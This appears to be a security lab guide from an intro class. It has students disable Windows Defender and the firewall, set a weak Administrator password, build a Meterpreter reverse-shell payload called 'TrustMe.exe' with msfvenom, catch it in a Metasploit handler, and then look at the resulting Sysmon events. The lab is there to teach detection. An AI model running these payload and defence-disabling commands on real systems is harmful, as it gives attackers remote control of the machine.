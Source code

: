 # Sysmon

Let’s disable **Defender**. Simply run the following from an **Administrator PowerShell** prompt:

![](attachments/OpeningPowershell.png)

Next, run the following command in the **Powershell** terminal:

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/applocker_disabledefender.png)
This will disable **Defender** for this session.

If you get angry red errors, that is **Ok**, it means **Defender** is not running.

Next, lets ensure the firewall is disabled. In a Windows Command Prompt.

<pre> netsh advfirewall set allprofiles state off</pre>


Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Before we move on from our Powershell window, lets get our IP by running the following command:

<pre>ipconfig</pre>

![](attachments/powershellipconfig.png)
**REMEMBER - YOUR IP WILL BE DIFFERENT**

Write this IP down so we can use it again later.

Let's continue by opening a **Kali** terminal

![](attachments/OpeningKaliInstance.png)

Alternatively, you can click on the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)


We need to run the following commands in order to mount our remote system to the correct directory:

<pre>sudo su -</pre>

<pre>mount -t cifs //[Your IP Address]/c$ /mnt/windows-share -o username=Administrator,password=T@GEq5%r2XJh</pre>

**REMEMBER - YOUR IP ADDRESS WILL LIKELY BE DIFFERENT.**

Run the following commands to start a simple backdoor and backdoor listener: 
 
<pre>sudo su -</pre>

<pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=[Your IP Address] lport=4444 -f exe -o /mnt/windows-share/TrustMe.exe</pre>

Let's start the **Metasploit** Handler.  Open a new **Kali** terminal by clicking the **Kali** icon in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Let's become root.

<pre>sudo su -</pre>

Now let's start the **Metasploit** Handler

<pre>msfconsole -q</pre>

We are going to run the following commands to correctly set the parameters:

<pre>use exploit/multi/handler</pre>

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

<pre>set LHOST [Your IP Address]</pre>

Remember, **Your IP will be different!**

<pre>exploit</pre>

It should look like this:

![](attachments/msfconsole.png)

We will need to open a **"cmd.exe"** terminal as **Administrator**.

![](attachments/OpeningWindowsCommandPrompt.png)

<pre>cd \IntroLabs</pre>

<pre>Sysmon64.exe -accepteula -i sysmonconfig-export.xml</pre>

It should look like this:

![](attachments/sysmonexe.png)

let's run the following commands to run the **"TrustMe.exe"** file.

<pre>cd \</pre>
 
Then run it with the following:

 <pre>TrustMe.exe</pre>

Back at your Kali terminal, you should have a metasploit session!

![](attachments/meterpretersession.png)

Now, we need to view the Sysmon events for this malware:

Open **"Event Viewer"** by pressing the Windows key and searching for it.

![](attachments/eventviewer.png)

You will select Event Viewer > Applications and Services Logs > Microsoft > Windows > Sysmon > Operational

![](attachments/eventviewernav1.png)

You'll have to scroll down a bit until you find the **Sysmon** folder.  

![](attachments/eventviwernav2.png)

Start at the top and work down through the logs, you should see your **malware** executing.  Please note your paths may be different.

![](attachments/logs.png)

![](attachments/processcreateview.png)

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)
